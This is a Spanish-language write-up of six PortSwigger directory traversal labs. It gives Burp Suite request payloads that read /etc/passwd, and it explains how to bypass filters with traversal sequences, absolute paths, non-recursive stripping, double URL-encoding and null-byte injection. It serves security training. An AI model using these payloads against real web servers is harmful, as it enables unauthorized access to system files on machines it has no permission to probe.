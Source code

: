# Directory Traversal 'PortSwigger' 

Local File Inclution (LFI)
El directory traversal es una técnica de hacking web que permite acceder a ficheros de la aplicación para los cuales no se debería tener autorización.

Para todos los lab, debemos des desplegar la imagen en la pagina de PortSwigger, para poder hacer el Directory Traversal.
**Ctrl + r** Mandamos la informacion al Repeater en BurpSuite 
**Ctrl + u** Hacemos url encode a la informacion 
**Ctrl + Shift + u** Quitamos el url encode a la informacion


#### Lab 1 File path traversal, simple case
- **GET /image?filename=29.jpg HTTP/1.1**  Forma original de la pagina web en BuerpSuite 
- **GET /image?filename=*../../../../../../../../etc/passwd* HTTP/1.1** -> Con el Directory Traversal podemos ver el archivo /etc/passwd

Hacemos el path traversal en esta ocasion en donde esta el filename, podemos regresar muchas veces, al final hay un tope, por lo que podremos podremos listar el contenido del /etc/passwd. Todo lo podemos hacer desde el **repeater** en BurpSuite

#### Lab 2 File path traversal, traversal sequences blocked with absolute path bypass
Hay ocasiones que ya partimos desde la raiz, por lo que o es necesario poner el ../ para hacer el path traversal y mostranos el archivo. 

- **GET /image?filename=29.jpg HTTP/1.1**  Forma original de la pagina web en BuerpSuite 
- **GET /image?filename=*/etc/passwd* HTTP/1.1** -> Con el Directory Traversal podemos ver el archivo /etc/passwd

#### Lab 3 File path traversal, traversal sequences stripped non-recursively
Ocasionalmente para evitar este tipo de 'ataques', el programador hace una sanitizacion que consiste en que cada vez que vea **../** lo quitara. 

- **GET /image?filename=29.jpg HTTP/1.1**  Forma original de la pagina web en BuerpSuite 
- **GET /image?filename=*....//....//....//....//....//....//etc/passwd* HTTP/1.1** -> Con el Directory Traversal podemos ver el archivo /etc/passwd. Pero en este caso para poder burlar la 'sanitizacion' debemos de aplicarlo doble, ya que pasa de:
					**....//....//....//....//....//....//etc/passwd**  ->  **../../../../../../etc/passwd**

#### Lab 4 File path traversal, traversal sequences stripped with superfluous URL-decode
Otra forma de poder hacer path traversal es colocar la barra **/** en **url-enocde**.

- **GET /image?filename=29.jpg HTTP/1.1**  Forma original de la pagina web en BuerpSuite 
- **GET /image?filename=*..%252f..%252f..%252f..%252f..%252f..%252fetc/passwd* HTTP/1.1** -> Con el Directory Traversal podemos ver el archivo /etc/passwd. Para poder hacer url-enconde en BurpSuite presionamos la teclas **Ctrl+ u** o presionamos Click derecho **Convert Selection -> URL -> URL-encode all characters** Tambien debemos de volver a URL encodear el % ya que de primera no funciona ya que lo sigue tomando como la barra por lo que el porcentaje queda como %25 y al final tenemos esto:          **/**  ->  **%2f** -> **%252f** 


#### Lab 5 File path traversal, validation of start of path
En esta ocasion la imagen a diferencia de las anteriores, ahora se encuentra en una ruta dada y lo mas probable es que nos lo tome como whitelist. Por lo que debemos de mantener la ruta hasta antes de la imagen para poder hacer le Path Traversal

- **GET /image?filename=/var/www/images/29.jpg HTTP/1.1**  Forma original de la pagina web en BuerpSuite
- **GET /image?filename=*/var/www/images/../../../etc/passwd* HTTP/1.1** -> Con el Directory Traversal podemos ver el archivo /etc/passwd.


#### Lab 6 
En este lab debemos de mantener el **.jpg** de la imagen porque si no, no nos lo tomara en cuenta ya que lo evaluael programa. Por lo que podemos 'aislar' el .jpg, y hacemos lo siguiente: 

- **GET /image?filename=29.jpg HTTP/1.1**  Forma original de la pagina web en BuerpSuite
- **GET /image?filename=*../../../etc/passwd%00.jpg HTTP/1.1** -> Con el Directory Traversal podemos ver el archivo /etc/passwd.

Con el **null by injection** nosotros podemos aislar la parte del .jpg y asi poder listar el contenido en /etc/passwd, esto se hace agregando **%00**










